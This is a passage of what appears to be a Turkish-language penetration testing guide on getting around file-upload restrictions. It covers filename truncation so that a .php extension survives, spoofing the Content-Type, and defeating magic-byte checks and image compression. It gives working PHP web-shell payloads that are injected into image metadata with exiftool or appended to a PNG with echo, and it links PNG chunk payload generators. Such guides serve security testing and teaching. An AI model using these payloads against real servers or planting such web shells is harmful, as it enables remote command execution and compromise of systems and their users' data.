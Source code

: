 8. Dosya adı sınırlarını aşmayı deneyin. Geçerli uzantı kesilir. Ve kötü niyetli PHP kalır. AAA<--SNIP-->AAA.php

```
# Linux maksimum 255 bayt
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # burada 4 çıkarın ve .png ekleyin
# Dosyayı yükleyin ve kaç karakterin izin verildiğini kontrol edin. Diyelim ki 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Yükü oluşturun
AAA<--SNIP 232 A-->AAA.php.png
```

### İçerik Türü, Sihirli Numara, Sıkıştırma ve Yeniden Boyutlandırmayı Atlama

- **Content-Type** kontrollerini atlamak için **Content-Type** **başlığının** **değerini** şu şekilde ayarlayın: _image/png_ , _text/plain , application/octet-stream_
1. Content-Type **kelime listesi**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
- **Sihirli numara** kontrolünü atlamak için dosyanın başına **gerçek bir görüntünün** **baytlarını** ekleyin ( _file_ komutunu karıştırın). Ya da **metadata** içine shell'i ekleyin:\
`exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
`\` veya yükü doğrudan bir görüntüye de **ekleyebilirsiniz**:\
`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
- Eğer görüntünüze **sıkıştırma ekleniyorsa**, örneğin [PHP-GD](https://www.php.net/manual/fr/book.image.php) gibi bazı standart PHP kütüphaneleri kullanarak, önceki teknikler işe yaramayabilir. Ancak, sıkıştırmayı **hayatta tutacak** bazı metin eklemek için **PLTE chunk** [**burada tanımlanan teknik**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) kullanılabilir.
- [**Kod ile Github**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_plte_png.php)
- Web sayfası ayrıca görüntüyü **yeniden boyutlandırıyor** olabilir, örneğin PHP-GD fonksiyonları `imagecopyresized` veya `imagecopyresampled` kullanarak. Ancak, sıkıştırmayı **hayatta tutacak** bazı metin eklemek için **IDAT chunk** [**burada tanımlanan teknik**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) kullanılabilir.
- [**Kod ile Github**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_idat_png.php)
- Görüntü yeniden boyutlandırmayı **hayatta tutacak** bir yük oluşturmak için başka bir teknik, PHP-GD fonksiyonu `thumbnailImage` kullanmaktır. Ancak, sıkıştırmayı **hayatta tutacak** bazı metin eklemek için **tEXt chunk** [**burada tanımlanan teknik**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) kullanılabilir.
- [**Kod ile Github**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_tEXt_png.php)
